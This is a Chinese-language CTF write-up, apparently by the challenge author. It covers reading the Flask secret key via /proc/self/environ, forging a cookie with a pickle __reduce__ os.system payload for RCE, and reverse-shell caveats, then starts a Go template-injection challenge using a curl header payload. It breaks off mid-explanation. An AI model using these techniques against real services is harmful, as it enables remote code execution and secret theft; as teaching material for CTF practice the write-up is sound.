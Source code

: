 页面注释给了Github地址，仅三个文件却有6个commits，查看历史commits

```python
app.config['SECRET_KEY'] = os.getenv('secret_key')
```

密钥从环境变量中获取，结合文件读取接口获取密钥

```
?file=/proc/self/environ
```

获取到后即可伪造Cookie，将Cookie修改为一段可RCE序列化数据，利用魔术方法`__reduce__`

```python
class U():
    def __reduce__(self):
        return (os.system, ('command here',))
```

这里反序列化有几个点需注意：

+ Python版本问题，2和3序列化后数据不同
+ 系统问题，Python os库实际为nt库和posix库的映射

成功RCE后即可获得flag，可选择反弹shell或执行命令重定向到文件，这里依旧有坑：

+ python-alpine镜像中没有bash，没有`/dev/tcp`，反弹shell需用Python fork sh进程
+ 我做了权限控制，用户没有当前目录和根目录写入权限，可写入家目录或/tmp

最终flag在根目录

***

#### Secret service

![](https://upload-images.jianshu.io/upload_images/11356161-d43ca04438894409.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/11356161-4fd11ee081f69bb5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

知识点

+ Golang SSTI
+ MySQL SSRF via Socks5 protocol

页面仅有一个输入点即header的`X-Forwarded-For`，尝试SSTI

{% raw %}

```go
curl http://202.119.201.199:40102 -H "X-Forwarded-For: {{ . }}"
```

{% endraw %}

获得数据

```go
map[app:chanllenge config:map[sqlConf:0xc4201c83b0 serviceConf:0xc4201c83c0]]
```

后端传入了`map[string]interface{}`，这里我手动加难度，传入了字符串指针，需手动访问到才会自动解引
